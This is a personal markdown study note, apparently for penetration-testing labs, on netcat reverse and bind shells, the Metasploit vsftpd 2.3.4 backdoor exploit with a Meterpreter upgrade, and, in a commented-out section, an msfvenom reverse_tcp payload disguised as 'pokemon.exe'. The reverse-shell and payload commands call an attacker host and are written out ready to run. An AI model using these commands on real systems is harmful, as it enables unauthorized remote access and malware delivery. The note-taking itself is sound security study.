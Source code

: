 <!-- /notes/cyber/exploitation.md -->

<br>

`Last updated: Tue 29 Nov 2022 20:20 IST`

<br>

<h1 id="additional-notes">Additional notes</h1>

## nc

#### Reverse shell:

1. Attacker exploits target machine  
2. Attacker listens on select port<br>`nc -lvp 4444`  
3. Target reverse TCP connection to attacker executing bash shell<br>`nc attacker_ip 4444 -e /bin/bash`

#### Bind shell:

1. Attacker exploits target machine  
2. Target listens on select port and executes bash shell<br>`nc -lvp 4444 -e /bin/bash`  
3. Attacker bind TCP connection to victim at select port<br>`nc target_ip 4444`

<br>
<h1 id="metasploit-framework">Metasploit Framework</h1>

## msfdb

```bash
msfdb init
msfdb start
msfdb stop
```

## msfconsole

```bash
help
search
use
```

#### 1. VSFTPD v2.3.4 Backdoor Command Execution

_`msf6 > `_

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
```

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
show options #show exploit options
show payloads #show exploit payloads
set RHOSTS 10.8.22.123 #set module options
set payload 0 #set payload options
exploit #or run
```
##### (Ctrl + Z) to send session to background.

#### 2. Upgrade shell to Meterpreter:

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
sessions #see active sessions
search shell_to #search for module
use post/multi/message/shell_to_meterpreter
```

#### 3. Shell to Meterpreter Upgrade

_`msf6 post(multi/manage/shell_to_meterpreter) >`_

```bash
show options
sessions
set SESSION 1
exploit
sessions
sessions -i 2 #enter meterpreter session
```

##### (Ctrl + Z) to send session to background.

<!--
```bash
use auxiliary/scanner/portscan/syn
```
-->

## msfvenom

```bash
msfvenom -h
msfvenom -l payloads
msfvenom -l formats
```

<!--
#### 1. Set up listener on attacker's machine:

```bash
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```


#### 2. In `msfconsole`:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.172.128
set LPORT 7777
exploit
# set ExitOnSession false
# exploit -j
```

#### 3. Generate payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.172.128 LPORT=7777 -f exe > pokemon.exe
```

#### 4. Send to Windows 7 VM and run it
-->